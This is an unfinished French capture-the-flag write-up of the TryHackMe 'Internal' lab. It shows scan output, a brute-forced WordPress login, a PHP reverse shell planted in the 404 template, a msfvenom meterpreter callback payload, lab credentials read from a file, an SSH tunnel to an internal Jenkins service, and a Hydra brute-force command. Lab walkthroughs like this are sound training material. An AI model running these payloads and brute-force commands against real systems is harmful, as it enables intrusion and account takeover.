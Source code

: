 # Room : Internal
IP :

je finirais le write-up plus tard...

# Enum / Reconnaissance
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 08:59 EDT
Nmap scan report for 10.10.116.71
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.10 seconds
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 311] [--> http://10.10.116.71/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.116.71/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.116.71/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.116.71/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```
En refaisant un gobuster sur la page /blog je trouve d'autre information utile:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 322] [--> http://10.10.116.71/blog/wp-content/]
/wp-includes          (Status: 301) [Size: 323] [--> http://10.10.116.71/blog/wp-includes/]
/wp-admin             (Status: 301) [Size: 320] [--> http://10.10.116.71/blog/wp-admin/]
```

En testant la page wp-admin avec un compte admin/admin, j'ai l'identifiant : admin
Celui-ci me retourne cette erreur : 
**Error: The password you entered for the username admin is incorrect. Lost your password?**
Il conforme que c'est bien **admin**

## WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.116.71/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.116.71/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.116.71/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'WordPress 5.4.2'
```

WordPress version 5.4.2

# Exploit Wordpress
Je trouve le compte admin du wordpress après l'avoir bruteforce

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                               

On edite la page 404 et on y met un reverse shell php

On provoque une erreur 404 et le shell s'ouvre.

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Internal]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.116.71] 55198
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:29:46 up 33 min,  0 users,  load average: 0.00, 0.19, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

Pour le fun on test de créer un shell en .elf avec msfvenom
puis on récupère un shell stable avec metasploit

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.14.59.209 LPORT=4445 -f elf > shell.elf
```
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.59.209:4445 
[*] Sending stage (1017704 bytes) to 10.10.116.71
[*] Meterpreter session 1 opened (10.14.59.209:4445 -> 10.10.116.71:57692) at 2023-09-04 09:33:19 -0400

meterpreter >
```

# Privesc to user !
Sur le serveur on trouve un fichier **wp-save.txt** dans le dossier **/opt** qui semble interessant.

```
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
effectivement, il y a des cred dedans !
# Privesc to root !
Ce compte permet un acces via SSH avec la session de Aubreanna

1er flag présent sur le bureau :
```
THM{*************}
```

Linpeas trouve :

```
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                      
                                                                                                                                                                                
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```

Mais inutile.

Dans le home de Aubreanna il y a un fichier **jenkins.txt** qui contient :
```
Internal Jenkins service is running on 172.17.0.2:8080
```
Il y a bien quelques chose quand on curl dessus:

```
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:
  
Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html>
```
On va renvoyer le flux web vers moi via un SSH
```
ssh -L 4545:172.17.0.2:8080 aubreanna@10.10.116.71
```
Maintenant, depuis le navigateur, avec l'url **localhost:4545** on vois le résultat de **172.17.0.2:8080**.

Après une longue recherche infructueuse, je me laisse tenter par un brute force, sur la docs, il précise que l'identifiant par defaut est **admin**. On va bruteforce ce compte !

on va utiliser Hydra pour cela :

```
hydra -l admin -P /home/kali/Wordlist/rockyou.txt 10.10.116.71 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password" -I
```

